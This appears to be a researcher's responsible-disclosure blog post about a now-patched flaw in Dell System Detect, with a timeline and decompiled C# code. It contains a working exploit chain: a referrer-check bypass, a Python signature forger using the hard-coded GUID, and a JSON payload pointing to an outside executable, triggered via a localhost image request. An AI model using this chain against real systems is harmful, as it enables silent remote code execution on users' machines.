

I recently discovered a serious flaw with Dell System Detect that allowed an attacker to trigger the program to download and execute an arbitrary file without any user interaction. Below is a summary of the issue and the steps taken to bypass the protections Dell put in place.

*Timeline:*

The issue was fixed within two months and Dell were clear in their communications throughout.

   * 11/11/2014 - Contacted Dell about the issue and received an acknowledgement
   * 14/11/2014 - Received confirmation that Dells Internal Assessment team is investigating
   * 9/1/2015 - Dell state that they have fixed the issue by introducing additional validation and obfuscation
   * 10/1/2015 - Checked patched program and could not reproduce this exploit
   * 23/3/2015 - This post is published

### Summary
Anyone who has owned a Dell will be familiar with the [Dell Support page](https://www.dell.com/support/). You can get all the latest drivers for your exact machine configuration from this site by entering your Dell Service Tag, which can be found on a sticker somewhere on your machine or through clicking the shiny blue "Detect Product" button.


Clicking this button prompts you to download and install the "Dell System Detect" program, which is used to auto fill the service tag input and show you the relevant drivers for your machine.

While investigating this rather innocuous looking program I discovered that it accepts commands by listening for HTTP requests on *localhost:8884* and that the security restrictions Dell put in place are easily bypassed, meaning an attacker could trigger the program to download and install any arbitrary executable from a remote location with no user interaction at all.

### The interesting bit
If you click the button you are prompted to download and install the "Dell System Detect" program which conspicuously sits in your taskbar and starts itself with your machine. So this program is clearly part of the process of autodetecting the service tag, but how does the browser page communicate with it? You can use Chrome's excellent developer tools to view the network traffic of the page and see that it makes several requests to a service listening on localhost port 8884:



Ok, so it seems that the Dell System Detect runs a HTTP server that listens for requests, which are sent from the Dell Support page's JavaScript. So let's take a closer look at the program - it's a .NET 2.0 executable and can be completely decompiled with [dotPeek](https://www.jetbrains.com/decompiler/) into a set of Visual Studio solutions. A quick search through the code for "http" brings us to *eSupport.Common.Client.Service.RequestHandlers.ProcessRequest* which is responsible for processing a request through the processes HTTP port. Below is an abbreviated snippet showing how this function authenticates that requests come from a valid Dell domain:

```csharp
public void ProcessRequest(HttpListenerContext context)
{
    String url = "";
    if (context.Request.UrlReferrer == null) url = context.Request.Headers["Origin"];
    else url = context.Request.UrlReferrer.AbsoluteUri;

    if (absoluteUri.Contains("dell"))
    {
        if (context.Request.HttpMethod == "GET")
          this.HandleGet(context);
        else if (context.Request.HttpMethod == "POST")
          this.HandlePost(context);
        ...
    }
}
```

So that's our first issue: the program attempts to verify that the request is sent from a Dell domain by only checking if "dell" is in either the HTTP Referrer or Origin headers. Why is this a problem? **The HTTP Referrer can contain the *full* request URI** including the host and path. This means an attacker could easily make a request with an origin of "https://hacker.com/dell" and this would pass the initial test as "dell" is in the string. 

Armed with this information we can make requests to the program that are at least partially processed. Inside each of the method handlers (*HandleGet*, *HandlePost*) there is a fair bit of messy code, but below is a simplified version:

```csharp
private void HandleGet(HttpListenerContext context)
{
  string[] urlParts = context.Request.Url.AbsolutePath.Split('/');
  MethodInfo method = FindService(urlParts[0]), urlParts[1]);

  string signature = context.Request.QueryString["signature"];
  string str3 = context.Request.QueryString["expires"];
  bool verified = new AuthenticationHandler().Authenticate(urlParts[0], urlParts[1], str3, signature);
  if (!verified) return Error()

  var result = method.Invoke(GetParameters(context.Request));
  return MakeResponse(result);
}
```

This function splits the request URL by the slash and uses the first two components to find the correct service to execute. In the Chrome screenshot above we see that the web page is making a request to **clientservice/isalive**, which means the program will execute the **isalive** method in the **clientservice** service.

After the service has been found it inspects two query string parameters, *signature* and *expires*, and passes them to the *Authenticate* method. If this passes then the service is invoked with other query string parameters as arguments.

It seems obvious by now that the program does a little bit more than simply retrieve your service tag, so before we look into the *Authenticate* method let's see what interesting things we can do.

### Services
There are three services that can be used: **diagnosticservice**, **downloadservice** and **clientservice**. Within these are 25 methods, including *getservicetag*, *getdevices*, *getsysteminfo*, *checkadminrights* and *downloadfiles*. It seems that the entire Dell system support package is included with System Detect, meaning if we can bypass the authentication then we can trigger any of these methods.

The most interesting method is called **downloadandautoinstall**, which does exactly what it says on the tin.

```csharp
[ServiceName("downloadservice")]
public class DownloadServiceLogic
{
    [RemoteMethodName("downloadandautoinstall")]
    public static ServiceResponse DownloadAndAutoInstall(string files)
    {
        // Download and execute URL's passed in the files parameter without prompting the user
    }
}
```

If we can bypass the *Authenticate* method then we can trigger this function which will download and execute whatever file we tell it to by making a request to **https://localhost:8884/downloadservice/downloadandautoinstall**. So lets take a look at the authenticate method which is the only thing stopping us:

```csharp
public bool Authenticate(string service, string method, string expiration, string signature)
{
    var secret = string.Format("{0}_{1}_{2}_{3}", service, method, expiration, "37d42206-2f68-48be-a09a-9f9b6424ad85");
    var hash = new SHA256Managed().ComputeHash(Encoding.UTF8.GetBytes(secret));

    string stringToEscape = Convert.ToBase64String(hash).TrimEnd('=');
    bool flag = stringToEscape.ToLower() == signature.ToLower() || Uri.EscapeDataString(stringToEscape).ToLower() == signature.ToLower();
    if (!flag)
        ErrorLog.WriteLog("Not authenticated");
    return flag;
}
```

Wow. Ok, so not exactly the hardest thing to break. The service, method, expiration and signature arguments are all attacker controlled and passed through GET arguments. The only thing not controlled by a remote attacker is the hard-coded GUID *"2f68-48be-a09a-9f9b6424ad85"*.

Essentially all the function does is create a string with the arguments and the GUID then compare it with the one the user has given, and if it is a match the user is 'authenticated'. With this information in hand we can create a simple Python function to generate a valid signature:

```python
def make_signature(service, method):
    expiration = int(time.time()) + 400000

    secret_string = "{}_{}_{}_{}".format(
        service, method, expiration, "37d42206-2f68-48be-a09a-9f9b6424ad85"
    )

    hashed = hashlib.sha256(unicode(secret_string, "utf-8"))
    print("Secret: {}".format(secret_string))
    print("Hash: {}".format(hashed.hexdigest()))
    return expiration, base64.encodestring(hashed.digest()).rstrip(b"\n").rstrip(b"=")
```

If we can generate a valid token then we can trigger the "downloadandautoinstall" method with our arbitrary file by causing the user to make a GET request, which is very very easy to do. A simple way would be to embed an image in a web page with the source set to "https://localhost:8884/downloadservice/downloadandautoinstall" with the appropriate GET arguments. After some investigation it seems that the DownloadAutoInstall method needs a list of JSON strings containing information about files to download and install. Sending a JSON object like the following with a valid signature will trigger a download:

```python
{
    "Name": "messbox.exe",
    "InstallOrder": 1,
    "IsDownload": True,
    "IsAutoInstall": True,
    "Location": "https://www.greyhathacker.net/tools/messbox.exe"
}
```


### Conclusion
So in conclusion we can make anyone running this software download and install an arbitrary file by triggering their web browser to make a request to a crafted *localhost* URL. This can be achieved a number of ways, and the service will faithfully download and execute our payload without prompting the user.

I don't think Dell should be including all this functionality in such a simple tool and should have ensured adequate protection against malicious inputs. After contacting Dell and discussing the issue with their internal security team they pushed out a fix that included obfuscating the downloaded binary. While I cannot be sure I think they simply changed the conditional from "if dell in referrer" to "if dell in referrer domain name", which may be slightly harder to exploit but just as severe. There is now also a big agreement you have to accept before downloading that specifies what the software can do.

    